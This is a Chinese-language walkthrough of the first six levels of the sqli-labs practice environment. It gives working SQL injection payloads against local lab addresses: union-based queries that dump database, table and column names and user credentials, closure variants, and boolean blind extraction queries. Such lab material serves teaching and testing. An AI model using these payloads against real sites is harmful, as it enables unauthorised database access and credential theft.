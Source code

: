 # SQLI

## 第一关

上来就是一课，注意数值查询注入和字符注入。

1. 过语句and 1=2测试 ，页面回显正常，所以该地方不是数值查询
2. 接着尝试在id后面加上'，发现页面回显不正常，表示可能存在SQL字符注入
3. 输入--+将sql后面的语句注视掉后，发现页面回显正常，则证明这个地方是单引号字符型注入
    > 另外-- （这里有一个空格，--空格）在SQL内表示注释，但在URL中，如果在最后加上-- ，浏览器在发送请求的时候会把URL末尾的空格舍去，所以我们用--+代替-- ，原因是+在URL被URL编码后会变成空格。

4. 接着使用order by 语句判断，该表中一共有几列数据。order by 3页面回显正常，order by 4页面回显不正常，说明此表一个有3列。
5. 将id=1改为一个数据库不存在的id值，如861，使用union select 1,2,3联合查询语句查看页面是否有显示位。
    `http://192.168.3.148/Less-1/?id=1111%27%20union%20select%201,2,3%20--+`

    首先解释一下select后面几个数字的意思，1，2，3，4...，这里的几个数字纯粹是凑数的，凑够和union关键字前面的那个表的字段数一样，不然没法拼接成一个表。在sql注入的时候，在将相应位置替换成你想获得的数据，查询结果后面就会显示出来。如下图最后一行：
    ![xx](https://gss0.baidu.com/9fo3dSag_xI4khGko9WTAnF6hhy/zhidao/pic/item/18d8bc3eb13533fad032f376a0d3fd1f40345be5.jpg)

6. 然后利用sql查询语句依次爆破出数据库内的数据库名，表名，列名，字段信息例子(这是一个查询数据库名信息的语句)：  
`http://127.0.0.1/sqli-labs/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+`  
    > select group_concat(schema_name) from information_schema.schemata  
这个语句是查询所有数据库的名

7. 查询security内的所有表名  
`http://127.0.0.1/sqli-labs/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='security')--+`  
    > select group_concat(table_name) from information_schema.tables where table_schema='security'  
查询security内的所有表名

8. 接着使用下面的语句爆破出列名  
`select group_concat(column_name) from information_schema.columns where table_name='users'`  
9. 接着使用如下语句查询所有的用户名，密码  
`select group_concat(password) from security.users`  
`select group_concat(username) from security.users`

    > http://192.168.3.148/Less-1/?id=1111' union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users)--+

## 第二关

1. `http://192.168.3.148/Less-2/?id=2-1`和`http://192.168.3.148/Less-2/?id=1`返回结果相同，因此为数形注入，`http://192.168.3.148/Less-2/?id=222222 union select 1,2,3`以这个语句进行注入，其余同第一关。

## 第三关

1. 这里考察的的闭合问题，这里是`')`这样的闭合，所以使用后面的语句进程注入即可。`http://192.168.3.148/Less-3/?id=13333') order by 3 --+`

## 第四关

1. 这里考察的也是闭合问题，这里是这种`")`,所以使用后面这样的语句来进行手工注入。`http://192.168.3.148/Less-4/?id=33333") union select 1,2,3 --+`

## 第五关

1. 这关考察布尔型盲注  
   获取数据库长度的语句 `http://192.168.3.148/Less-5/?id=1' and length(database())=10 --+`  
   依次获取数据库每个字符的语句`http://192.168.3.148/Less-5/?id=1' and ord(mid(database(),1,1))=111 --+`

    判断表存不存在  `and exists(select * from information_schema.tables)`  
    判断存在多少个库  `and (select count(distinct+table_schema) from information_schema.tables)=4`  
    查询所有数据库
    判断数据库名的长度  `and (select length(table_schema) from information_schema.tables limit 0,1) =17`  
    查询每个库的库名  `and (select ascii(substr((select distinct table_schema from information_schema.tables limit 0,1),1,1)))>104`  
    查询表，先判断表的长度  `and (select length(table_name) from information_schema.tables where table_schema='information_schema' limit 0,1) >13`  
    猜解表的字符(表名)  `and (select ascii(substr((select table_name from information_schema.tables where table_schema='information_schema' limit 0,1),1,1))) >66`  
    猜解表中有多少列 `and (select count(column_name) from information_schema.columns where table_schema='information_schema' and table_name='CHARACTER_SETS' ) >4`  
    判断每个字段的长度  `and (select length(column_name) from information_schema.columns where table_schema='information_schema' and table_name='CHARACTER_SETS' limit 0,1 ) >17`  
    猜第一个字段的字符  `and (select ascii(substr((select column_name from information_schema.columns where table_schema='information_schema' and table_name='CHARACTER_SETS' limit 0,1),1,1)) ) >66`  

    查询当前数据库  
    查询数据库的长度  `and length(database()) > 4`  
    查询数据库名  `and ascii(substr((select database()),1,1)) > 99`  
    查询表名的长度  `and (select(length(table_name)) from information_schema.tables where table_schema = 0x64767761 limit 0,1) > 8+--+`  
    查询表名  `and ascii(substr((select table_name from information_schema.tables where table_schema=0x64767761 limit 1,1),1,1)) > 116`  
    查询列名的长度 `and (select(length(column_name)) from information_schema.columns where table_name = 0x7573657273 limit 0,1) > 6`  
    查询列名  `and ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 0,1),1,1)) > 116`  
    查询字段的长度  `and (select length(column_name) from information_schema.columns where table_name=0x7573657273 limit 1,1 ) >10`  
    爆出字段  `and ascii(substr((select user from dvwa.users limit 0,1),1,1)) > 96`

   ```txt
   这里首先列出几个常用的涵数:
    1:system_user()
    2:user()         返回MYSQL用户名
    3:current_user()
    4:session_user()
    5:database()     返回当前数据库名
    6:version()      返回当前数据库版本信息
    7:load_file()    返回文件的内容
   ```

## 第六关

1. 使用语句与第五关相同，闭合如后所示  `http://192.168.3.148/Less-6/?id=1" and length(database()) = 555 --+`

## 感谢以下博文的原作者。

> https://blog.csdn.net/sdb5858874/article/details/80727555  
https://blog.csdn.net/alex_seo/article/details/82148955